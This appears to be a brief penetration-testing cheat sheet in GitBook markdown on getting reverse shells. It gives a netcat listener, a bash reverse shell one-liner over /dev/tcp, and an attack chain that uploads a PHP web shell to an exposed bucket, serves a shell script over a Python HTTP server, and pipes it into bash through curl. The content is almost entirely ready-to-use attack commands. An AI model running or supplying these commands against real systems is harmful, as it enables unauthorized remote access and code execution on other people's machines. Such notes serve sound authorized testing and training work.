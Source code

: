 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

## <mark style="color:purple;">Basic bash script</mark>

* Stablish a listening port on the host machine with _netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port     #An arbitrarie port 
```
{% endcode %}

***

* Use script to sent remote shell to the listening port

{% code title="RevShell.sh" overflow="wrap" lineNumbers="true" %}
```sh
#!/bin/bash

bash -i >& /dev/tcp/$ip/$port 0>&1
```
{% endcode %}

{% hint style="info" %}
* `$port`is the port listening with _netcat_ and `$ip` the host machine IP
* If you are using a VPN `$ip` is the IP assigned by the VPN instead of the host IP
* Remember also to give execution permissions to the script
{% endhint %}

***



## <mark style="color:purple;">For awscli</mark>

* Check if we have remote command execution

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php #Upload in the bucket
http://$url/shell.php?cmd=id #On browser, if response we have access
```
{% endcode %}

***

* Create bash file for reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash 
bash -i >& /dev/tcp/$myip/$portcat 0>&1 #Arbitrary port
```
{% endcode %}

***

* Listen with netcat

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp $portcat
```
{% endcode %}

***

* Create a server with python

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m http.server $port #Must be created at the same place where the reverse shell script is
```
{% endcode %}

***

* Make curl from local server to get reverse shell file and pass it to bash of the machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/shell.php?cmd=curl%20$myip:$portpy/$shfile|bash
```
{% endcode %}

***

